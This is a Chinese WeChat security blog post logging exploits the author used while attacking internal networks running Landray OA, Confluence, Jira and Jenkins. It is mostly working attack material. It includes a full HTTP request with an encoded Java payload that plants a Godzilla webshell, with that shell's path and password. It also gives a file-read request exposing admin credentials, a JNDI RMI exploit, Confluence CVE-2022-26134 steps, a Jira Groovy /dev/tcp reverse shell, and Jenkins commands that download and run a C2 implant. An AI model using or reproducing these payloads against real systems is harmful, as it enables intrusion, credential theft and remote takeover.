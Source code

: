 #  漏洞利用记录(蓝凌&Confluence&Jira&Jenkins)

原创 carrypan  [ 安全艺术 ](javascript:void\(0\);)

**安全艺术** ![]()

微信号 AnQuanYiShu2022

功能介绍 安全培训、渗透测试欢迎来聊

____

___发表于_

收录于合集

最近测试攻入内网，碰到了很多漏洞，有些还需要去查找poc利用，比较浪费时间，还是简单记录下，方便后续查找吧，也有很多都是直接工具集成利用的，懒得整理了，有需要的可以公众号私信获取。

 **1、蓝凌OA前台sysSearchMain.do远程命令执行**

直接写入哥斯拉马

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0Content-Length: 6882Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Cache-Control: no-cacheContent-Type: application/x-www-form-urlencodedPragma: no-cacheUpgrade-Insecure-Requests: 1Accept-Encoding: gzip  
    var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=<java><void+class%3d"com.sun.org.apache.bcel.internal.util.ClassLoader"><void+method%3d"loadClass"><string>$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$b5X$5bs$db$c6$V$3e$b4$rSV$e88$91$e3$5b$92$sM$da4$ce$c5$WH$8aQ$Y$3bI$F$8a$A$c1$L$q$R$q$40$mmS$dc$E$80$c4$z$E$u$Sl$7fNg$fa$9c$X$b9S$cf$f4$H$f4$P$f5$ad$d3$b3$e0M$92e$3b$cd$b4$f6$I$Ev$cf$9e$3d$e7$3b$d7$dd$7f$fe$fb$ef$ff$A$80$o$fcy$T$de$87$c7Yx$b2$JW$e0$f1$s$7c$N$df$90$c7$b7$h$f0$dbM$d8$Dz$T$w$b0$bf$JU$606$81$85$da$spP$cfB$p$L$cdM$b8$B$8f7$a0$b5$J$f7$80$t$l$H$hpH$7e$8f6$n$H$ed$N$Q$b2$d0$d9$84$3b$84$7b$97$fc$8a$h$m$R$e2$k$99$97$c9C$c9$c2wY$f8$5d$G$ae$3dq$7c$t$fe$s$DW$l$7c$of$60$ad$S$Yf$Gn6$j$df$e4G$9ef$O$3b$aa$e6$e2$c8V3$d0UWT$87$O$f9$9e$P$ae$c5$b6$T$919F$8d$e2z$U$f8U$dd$O$e8J$b5$f98$D$9b$d5$89n$86$b1$T$f8H$b1$e6$a9$8e$9f$81$3b$P$bek$f6$d5$Tu$dbU$7dk$5b$88$87$8eo$3dN$b7U$87$W$92$dd$bad$3a$D$hOtw$n$a4$ee$o$d9$9bg$a8$w$ae$gEH$b4$W$aa$b1MD$b9$84A$$$c4$97X$g$3a$b19$yd$e0$f6$8c$c6$J$b6$PW$e3H$b6$k$d9$a6$ebf$mk$98$3a$a20$cc$c0$bdf4$f2$b7$3d$t$d2$b7$e9$3d$a1$fa$c5$ce$fel$86$f0$9c$R$cd$f6$c8$c0$N$nV$f5AK$NSd$Q$5c$E$40$IFC$ddd$i$82$d4$ed$8b$I$3d$o2$e4$e0$97$f0A$G$de$b88$99$85$df$e7$e0$P$f0$7d$O$fe$I$wZC$8b$ecG$9c$8fR$86C$T$9fY$d0r$a0$83$91$F3$H$c7$60e$c1$ce$81$D$fd$y$Mr$e0$82$97$F$3f$H$B$84$I$e8$r$9af$e0$eeE$8c$e8$91$e3$a6$Kg$a5$w$fd$90$e3$99$i$fc$A$c3$iD$Q$p$dan$609$fe$f7$ae$T$c5$89$Z$3d$eaGa$OF$Q$S$d9O27$febJ$dd$_$ebB$d5$ea$W$db$89$w$95$7c$aef$f7$P$Fn$wO$V$b7$c5r$3br$c7$ed$b7$3a$dd$a4$d5o$db$5c$3f$3aCG$dbz$b1U$e6$7c$d7$d5$Tn$97cxJ$f7$dc$91$92$d0$b1$b2$df$zk$d2Q$be1$a3$Z$9al$x$3cH$e8$be$c62S$3d$a1e$8e$Vw$MV$i$v$b5$96uT$98$m$N$df$d2$K$cc$40$e9$d5w$f5$9a$e8h$ac$db$e7$Y$x8$3f$c7Y$a6$e3$ee$eaEq$8c$ef$81$e9$Mv$8f$7bt$5e$f6$s$a1$9c$d0$fbs$de$ed$G$5b$_$no$ad$t$d0$7d$99$d0$7b$oe$f4$ea$p$ae$c6$e7uVL$9a$5e$dbU$88$9c$5d$3e$92$7b$fc$b4$c1$f2N$b3$b27nV$I$7d$vRP7$83$b5$c2$83$oe$9d$e1$ef$98$bd$b6$x$e5$v$cb$ac$d8$cbw$3d$998Z$a1$8ck$98$R$c7R$a1$99$d0$94$ee$bb$bb$aa$c7$U$e4$9e5$92$8b$f5$92$5ek$9f4$H$7c$a8$b3$b6$ab$3bt$ffP$Km$c3cv$9a$k$9f$98$3d$9a$d2$92$d2$be$da$a3$D$d4i$a4$UDJ$90JS$83eFr$a1$hp$D$86$e9$s$5cxPh$8d$Q$f3$d0$a8$d8$f1$e1$b4$faE$cb$99$8c$94$9en$3d$b7$8f$cf$8f$V$a95$ea$W$c4$3e$d1$5b$u$88$a5n$91v$e5$c4$de$91$93$92$af$f4$da$V$o$bb$9eXa$b3R$a7$dbb$cbi$I$83$VFlk$a4$b0e$W$f7$b2$b5$8a$3dmt$o$ebX$e2m$83$e5$D$aeb3$s$cb$bb$b8O$a8$Vv$yE8$83$z$5b$cak$ecx$97$ab$e5$cb$e8$X$L$cc$88$k$94$w$b5V$3e$c3$e6$H$bc$60w$8cZ$3d$d4$3c$j$f1$hXf$7e$e97$89$d2$3b$b2$O$FzdH$93$e8$A$d7$98$C$3d$c3R$uM$V$J$ed$e7$b9$94$v$94x$F$ed$sK$86$dbf$5d$d4$89$a7$Q$fb$5dM$d8$xs$y$c1$b6$3a$d2Q$7f$94$x4j$83QG$S$a7z$81$f1$95n$3bD$7c$a7F$r$c5$a1$ae$f9$3c$rK$a5$be$oXN$a7$7b$94$e7$d0$9f4$a1$84$3e$d2F$7d$bb$81$fe$i$5e$a9$8fL$9b$de$c4$d5$3c$83R$xV$d8$e8$c4K$99$97$f6$QJ$b1$dck$H$cdA$3dT$uw$84$be$e8$T$7fm$Jc$L$f9$PT$94$5b$_$k$F$88$3b$ce$95$XX$E$ad$8e$i6$fd$f6$89$d8$a3$d1$bf$eb$fb$e8$9bn$a3$82$3eN$fc$b8$d7$ee$ab$95$bd$a0$dd$b3$fb$K$fa$8c$w$95$R$f3n$c8$d5$e2$f2$ca$bf$eb$ae$b1$8f$f6$S$e8$b1$n$d5$p$82$bb$5e$q$ba$90XZb$ec$Q$be$7c$bf$cdh$k$7f$a2$a0$9e$b2$efR$8a$Y$h$i$5b$9f6$E$e4$5d$ab$9f$Y$c5$96un$afZ$bc$88$af$f9$fa$a3$ddU$kPl$ad$s$ba$dc$3eei$be$Yi$fb1$c6$A$da$b5P$b7$f5B$b7$c0$ef$e7$e7kK$9eV$ac$l$c8R$k$f5$aa$ff$m$f7$U$bb$e9$8b$c8$7f$3c$3a$f2$98$a9$d2$91$vb$83N$a1$fe$D$da$9a$e2$aa$o$c6$409$8d$7b$c4w$b1o$g$phSJe$cb$D$e4Cl4$d7EL8g$3c$93$a12$m$f1R$d0$K$b1$8b$f9$60$sGe9$b7$8b$f1$X$ZR$X$f9$ee$F$L$3d$g$dd$e5$7e$e9$k$b3$dc$d3B$3b$a5$7e$80$3e$d7$O$b4$c2Q$c0ys$3a$b1$7d$b2$c4$80$ec$eb$89E$ae$3a$cb$vi$9eX$e5$M$a4Oy$a1m$ce$c8$b5$d2$_$c2$f8q$8d$84$3e$94$bd$d0$95$8bm$92$bbv$89$3d$b8$g$95$e6$n$b9$c0Pr$c1$b2p$cd$8e$5c$Q$c7h$d3$T$cd$a1$5d$b4$d7$$$faO$89$abE$96$3c$c7$f0p$9e$d7$9a$9er$a2$P0$8e$r$cc$p$3e$9f$d7$9cR$ac$f6$f8$3e$fa$r$dd$a5$Q$8f$d5$fe$O$89$f3W$e1N$f4$3b$9b$9b$c8$9a$ff$J$8e$c2R$ff$99$9f$e4$d1$X$89$3es$bf$c4$3c$99$eaC$b0h$a2$P$h$5ey$a8$I$f6$d2$e6$Y$93i$ec$z$e4_$60$8f$beZ$c6$f8$c4$9c$f0$82$fc$d5$e1$d2$f89$eea$dc$d4$c4$E$f1$y$c8$d2$q$aft$5e$QC$ab$ba$b2$88$a1$w$ee$97$c6$d0$w$bf$fdw1$b4$8c$bd$ffW$M$b1m$f7$t$c6$d0$5c$97$9f$XC$L$3d$g$d2r$bfW$d8$7eN$f7$C$db$_$f0$7c$81$ed$H$LY$7f$b6$ed$F$c4v$5e_8$f6$a5$YO$Nig$a4I$ee$U$ebg$e5H$e4$99$95$dd$JV$83$5d$aeZvT$P$ebM$85$5e$caE$ec$b8$88$c7$a6$87$faa$j$m$7e$84$3e$9b$e6$f4$b3$f6$5e$f5$x$eeJ$_$cfp$8dy$$A$fa$8b$f6Z$d0U$MI$f1H$fc$$p$98$f7K$b3$fc$b1$cc$f9$a5E$dfUF$3b$84$9a$af$9c$a8$Y$bf$b8$be$af$V$b0$b6$zs$d7$5c$Pf$R$7fi$bezY$fdIH$fe9$ee$e5$b1$G$b6$b16$ef$y$f2$B$eaG$b9$87$fd$b1Kr$T$fa$f0$on$G$c8$c7$3e$94$e6xW$X$3e$60$e3z$sO$eax$aa7$83$3d$a3$c7$c4$K$a9$bb$8e$3dN1$409$U$ec$r$e4N$7e$a7$91$d6$e7$w$fa$N$c1$Q$f1$ec$c4$a1$e2$ec$FX$f3$b1$ce$93$bc$98$fa$gm$d4$88$P$d5$f3$a4$96s$3em$9b$d2$e4D$96$8e0$d7Q$e5$99$Pc$ff$b2Z3$7d$d9$9a$e6$ccG$e5F$ad$j$a8$bd$d6e$be$3d$f3$j$8a$d0$T$b9$b17$QJ$ed$b9$ac$a4O$u$x$d2$E$f7$88W$ba$fa$3c$da$98$a1H$fd$971$86I$l$a2$b3LB$fc$O$f1J$b0$a7$8eR$9dQ$f7y_$Rb$af$98$f6$pG$bdz$o$f7$dcC$a3$d7$k$e3$l$e9$n$5cYB$9f$c3$f1NQ$a4$O$a5T$deY$7e$f0$5c$ec$3fS$h$d0$ba_$b7$cdn9o$60$8ff$a4$fe$n$da$9a$80$bd$$$b5$f4a$efPX$f4$dd$ad$f0$tc$8au$ed$f9$fa$Q$7bMO$9c$Y$S$T$e9$89m$e3$de$u$ef$R$f6$b2$f2$88$60$80$b9vJ$ce$H$88$e5$beV$uQJ$cf$a6f$fd$U$3f$c6$ef$a92$c3$b5Gz$3e$d2$3f$n$9e$c5$f4$5d$b0$c9$f9$C$e3It$f4E$cd$d9$df$8bH$ff$94$ee$e9$af$ea2$895$d4q$aa$b3e$ec$J$bb$a9$dd$c4$o$f6$85$88$_$89$x$p$7d$c7$kh$k$abm$ec$HIL4jV$b0$c0$92$f0$3b$o$f9$ad$cb$q$e8$97$r$5c$Xq$88$D$fay8$ef$9d_$c9$9f$9c$85$d0$dey$d9_$c4$a45$e1$9d$c1$ec$8c$f1$92$fe$faX$e8$7e$a6$8f$bf$fe$gO$de$97$ld$f1$ecy$f1$y$98$831L$f00$dc$ed0$P$bf$q$87$bc$q$HS8$c9$c1$9f$c8Q$f5$d6$8a$7cy$be$3f$c7$e4$40$eb$9bz$7cn$a8c$PM$d5$c03$b2$3e$g$OM$3f$5e$7c$bf$f5$e0$93$e6E$w$3cY$df$b6$cc$b8$S$e0iw$S$a7$87$fbf$a0$a6$92$de$3fG$7ef$8a$ac$b9t$o$D$d7$5d$7cIG2$f0$d1$83K$ee$k$$$b9I$b8ya$I$95F$89$O$87A$8c$8a$a1$ba$fb$c1$ec2$e3$c3$85$3c$91$89$8a9q$b2$7d$91$G$99$bd$f7r$K$E$r$d5$d60g$97$F$Zx$f79$ae$abY$e4w$efEs$Zx$N9$91K$9a$b9I$W$7c$7c3$de$ee$b6$c9$8dL$ee$ec7$9e$f5$89V$e9$a5$c9yC$y$afM$d6$a3$d0u$d0$94$l_$G$dc$a575$d7$d404$7d4$ed$c3W$60$7d$ee$da$81$5c$f1$c4$c1$e2$s$e5$f6eK$c5$e5$85$L$3d$3a$3e$s$96$bds$a9Pt$G$ee$3e$f8$8e$be$9cC6$bd$Gr$R$9cu$dd$N$o$T$3e$80$x$f0$3e$90$7fW$nC$aeb$f0$fb$c3$f4n$$$83$ff$B$d6$3f$7d$K$99$l$f1$e5$K$fc$K$9f$e4$9e$O$Ha$N$ae$c1$af$f1$z7$p$82$8f$e07$f8$fb1$fe$ad$e1$c8$7bp$j$k$c0$tsV$bb$f8K$a8$ae$3f$83$x$f2S$b8$w$5ddw$j6$f0m$c5$ee$3a$7c$K$9f$9dc$b7$B$9f$a3d$Z$c2$$s$V$b7$bb$863$f6$df$60$ed$U$d6$b7$ae$9dB$b6$f1$e9$vl$9c$c2$f5S$d8$3c$85$d7$9a$cf$m$t$3f$83$h$b8$d9$eb$9fm$dd$3c$857$ae$WN$e1$cd$ad$z$7c$9c$c2$ad$a7$f0Vk$eb6$ff$M$ee$m$c1$dd$af$d6$9e$c1$3d$f9$fe$da$c3S$b8$bf$f5$f6Sx$e7$ab$f5$cf$ef$af$9f$c2$bb$9f$9f$c2$_$fe$Kk$8d$lS$99t8F9$ae$a6R$3f$82$d7$f0$f9$3aJ$7b$T$de$867$e0$J$bc$J$df$c2$W$d4$e0$W$c8$f0$W$7c$P$b7$91$fe$$$ae$b8$D$W$dcO5$fb$Ge$ce$81$E$Pq5$e0$w$O$b6$81B$ceOP$cb$3c$U$Q$87o$91$ae$88cW$91$cf$3b$b0$D$r$d4$5dF$5c$be$c0$b1u$E$91$e0r$e5_p$9c$85$_$R$F$u$a7$m$7e$f5$l$fci$9akK$V$A$A</string><void+method%3d"newInstance"></void></void></void></java>

访问路径/login_listyes.jsp，密码：yes

![](https://gitee.com/fuli009/images/raw/master/public/20230714180658.png)

 **2、 蓝凌OA前台任意文件读取**

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0Content-Length: 60Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Cache-Control: no-cacheContent-Type: application/x-www-form-urlencodedPragma: no-cacheUpgrade-Insecure-Requests: 1Accept-Encoding: gzip  
    var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}

![](https://gitee.com/fuli009/images/raw/master/public/20230714180659.png)

解密密码：kmssAdminKey  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180700.png)

后台地址：/admin.do

![](https://gitee.com/fuli009/images/raw/master/public/20230714180702.png)

 **3、蓝凌OA后台JNDI远程命令执行**

###

登录后台

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /admin.do HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0Accept: */*Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeCookie: Content-Type: application/x-www-form-urlencodedContent-Length: 69  
    method=testDbConn&datasource=rmi://******:1099/remoteExploit7

![](https://gitee.com/fuli009/images/raw/master/public/20230714180703.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230714180704.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230714180706.png)

 **4、Confluence写入内存马**

直接上工具，利用CVE-2022-26134写入内存马 **  
**

![](https://gitee.com/fuli009/images/raw/master/public/20230714180707.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230714180708.png)

在请求配置中添加如下内容：  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180709.png)

利用后渗透插件，一键添加Confluence管理员账号：  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180710.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230714180711.png)

 **5、Jira getshell**

查看版本信息，路径：/secure/admin/ViewSystemInfo.jspa

![](https://gitee.com/fuli009/images/raw/master/public/20230714180712.png)

下载对应插件版本

  * 

    
    
    https://marketplace.atlassian.com/apps/1218755/mygroovy/version-history

![](https://gitee.com/fuli009/images/raw/master/public/20230714180713.png)

进入插件管理，上传插件，路径：/plugins/servlet/upm

![](https://gitee.com/fuli009/images/raw/master/public/20230714180714.png)

上传后访问，/secure/JMWEGroovyScriptTester.jspa，执行如下命令

  *   *   * 

    
    
    def r = Runtime.getRuntime()def p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ip/port;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()

![](https://gitee.com/fuli009/images/raw/master/public/20230714180715.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230714180717.png)

 **6、Jenkins getshell**

路径：/jenkins/script

![](https://gitee.com/fuli009/images/raw/master/public/20230714180718.png)

  * 

    
    
    println "wget http://ip/c2".execute().text

![](https://gitee.com/fuli009/images/raw/master/public/20230714180719.png)

  * 

    
    
    println "ls -lt".execute().text

![](https://gitee.com/fuli009/images/raw/master/public/20230714180720.png)

  * 

    
    
    println "chmod +x c2".execute().text

![](https://gitee.com/fuli009/images/raw/master/public/20230714180722.png)

  * 

    
    
    println "./c2".execute().text

执行完直接上线cs

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

